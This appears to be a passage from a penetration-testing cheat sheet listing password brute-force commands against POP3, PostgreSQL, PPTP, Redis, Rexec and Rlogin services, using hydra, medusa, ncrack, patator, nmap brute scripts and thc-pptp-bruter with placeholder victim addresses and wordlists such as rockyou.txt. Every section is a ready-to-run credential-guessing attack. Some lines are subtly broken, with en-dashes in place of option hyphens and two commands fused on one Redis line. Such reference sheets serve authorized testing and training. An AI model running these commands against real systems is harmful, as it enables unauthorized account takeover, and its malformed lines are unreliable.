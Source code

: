 ## POP3

```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
```

```
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
```

## PostgreSQL

```
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
```

```
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgres
```

```
ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432
```

```
patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt
```

```
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
```

## PPTP

```
cat rockyou.txt | thc-pptp-bruter –u <Username> <IP>
```

## Redis

```
nmap --script redis-brute -p 6379 <IP>​hydra –P /path/pass.txt <IP> redis
```

## Rexec

```
hydra -l <username> -P <password_file> rexec://<Victim-IP> -v -V
```

## Rlogin

```
hydra -l <username> -P <password_file> rlogin://<Victim-IP> -v -V
```
